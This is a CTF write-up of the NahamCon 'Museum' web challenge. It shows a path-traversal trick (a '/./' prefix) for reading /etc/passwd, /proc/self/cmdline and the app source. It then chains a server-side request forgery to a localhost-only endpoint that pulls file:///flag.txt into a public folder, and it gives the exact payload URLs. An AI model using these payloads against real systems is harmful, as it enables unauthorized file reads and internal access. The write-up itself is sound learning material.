



# Museum

## About the Challenge

The challenge Museum is a web application with not a whole lot of functionality. Although we did solve this challenge, I still like to make a writeup of it, mainly because I find the first bug quite interesting. We missed it during the CTF event. The description of this challenge states that the flag is located in `/flag.txt` in the linux fileystem.

## How to Solve

### foothold

When viewing an "artifact", we see an `artifact` GET parameter (`http://challenge.nahamcon.com:30592/browse?artifact=angwy.jpg`). Initially trying to exploit this, I tried standard payloads like `../../../../etc/passwd` or `/etc/passwd`. Neither of them seemed to work.

However, the trick was, to add `/./` at the start of the payload. For example: `http://challenge.nahamcon.com:30592/browse?artifact=/./etc/passwd`.

This way, we can read `cmdline` from `/proc/self/cmdline`:


This gives us an idea of where the python web application is located at. In this case `/home/museum/app.py`. We can read the source code of this file by visiting `http://challenge.nahamcon.com:30592/browse?artifact=/./home/museum/app.py`

Three functions in this file stand out:

```python

@app.route('/private_submission_fetch', methods=['GET'])
def private_submission_fetch():
    url = request.args.get('url')

    if not url:
        return "URL is required.", 400

    response = submission_fetch(url)
    return response

def submission_fetch(url, filename=None):
    return urllib.request.urlretrieve(url, filename=filename)

@app.route('/private_submission')
def private_submission():
    if request.remote_addr != '127.0.0.1':
        return redirect(url_for('submit'))

    url = request.args.get('url')
    file_name = request.args.get('filename')

    if not url or not file_name:
        return "Please specify a URL and a file name.", 400

    try:
        submission_fetch(url, os.path.join(os.getcwd(), 'public', file_name))
    except Exception as e:
        return str(e), 500

    return "Submission received.", 200
```

### Building our exploit

The `/private_submission_fetch` endpoint seems to take an url as parameter and tries to add that submission to the museum. Next to that, the `/private_submission` endpoint seems to take a url and filename as input, and retrieve that url and put it in the museum. However, the `/private_submission` needs to be visited from the `127.0.0.1` ip address. This means we need to apply a Server Side Request Forgery technique.

We can use the `/private_submission_fetch` endpoint to achieve the SSRF. We only need an URL for that to work. According to the source code, the application runs locally on port `5000`:

```python
if __name__ == '__main__':
    app.run(debug=False, host="0.0.0.0", port=5000)
```

This means we can access the web application from the "inside" with the following URL:
`http://challenge.nahamcon.com:30592/private_submission_fetch?url=http://127.0.0.1:5000`

However, this returns a `500` error, because we didn't specify a `url` and `filename` for the "internal" url. Let's try it out!

We need to read the flag, which is located at `/flag.txt`. so `url=file:///flag.txt`. Second, we need to set a filename, this doesn't really matter what we choose, so let's do `filename=test123.txt`

Adding this together gets us the following url:
`http://127.0.0.1:5000/?url=file:///flag.txt&filename=test123.txt`

Let's URL encode it so the server understands it, and add it to the challenge url:
`http://challenge.nahamcon.com:30592/private_submission_fetch?url=http%3a//127.0.0.1%3a5000/private_submission%3furl%3dfile:///flag.txt%26filename%3dtest123.txt`

### Retrieving the flag

Even though the web server seems to error out, it still adds our "submission" to the museum:


Clicking on "view" will show us the flag:


That was the challenge!

##### written by Crunch
